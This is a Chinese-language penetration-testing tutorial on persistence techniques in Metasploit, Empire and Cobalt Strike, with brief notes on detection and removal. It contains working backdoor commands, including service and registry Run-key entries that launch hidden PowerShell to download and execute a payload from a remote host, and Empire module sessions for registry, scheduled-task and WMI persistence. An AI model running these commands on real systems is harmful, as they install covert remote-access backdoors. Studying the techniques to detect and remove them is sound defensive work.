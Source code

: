 # 第6篇：三大渗透测试框架权限维持技术

## 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

## 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个_meterpreter_ shell，通过_meterpreter_ shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动\(persistence\)的方式，在目标机器上以反弹回连。

![](../.gitbook/assets/privilege-3-1.png)

```text
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
```

生成的相关文件位置 ：

```text
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```

![](../.gitbook/assets/privilege-3-2.png)

**Metsvc 模块**

通过服务\(metsvc\)启动的方式，在目标机器启动后自启动一个服务，等待连接。

![](../.gitbook/assets/privilege-3-3.png)

后门排查：目标主机上开启了一个Meterpreter服务。

![](../.gitbook/assets/privilege-3-4.png)

## 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即

![](../.gitbook/assets/privilege-3-17.png)

| elevated（管理权限） | misc（杂项） | powerbreach | userland（用户权限） |
| :--- | :--- | :--- | :--- |
| registry\* | add\_netuser | deaduser | backdoor\_lnk |
| schtasks\* | add\_sid\_history\* | eventlog\* | registry |
| wmi\* | debugger\* | resolver | schtasks |
| wmi\_updater\* | disable\_machine\_acct\_change\* |  |  |
|  | get\_ssps |  |  |
|  | install\_ssp\* |  |  |
|  | memssp\* |  |  |
|  | skeleton\_key\* |  |  |

**注册表**

```text
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
```

![](../.gitbook/assets/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![](../.gitbook/assets/privilege-3-6.png)

**计划任务**

```text
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
```

![](../.gitbook/assets/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![](../.gitbook/assets/privilege-3-8.png)

**wmi**

```text
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
```

![](../.gitbook/assets/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![](../.gitbook/assets/privilege-3-10.png)

## 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![](../.gitbook/assets/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。

![](../.gitbook/assets/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![](../.gitbook/assets/privilege-3-13.png)

**服务自启动后门**

```text
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
```

重启服务器后，成功返回一个shell。

![](../.gitbook/assets/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

```text
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f
```

![](../.gitbook/assets/privilege-3-15.png)

账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![](../.gitbook/assets/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。

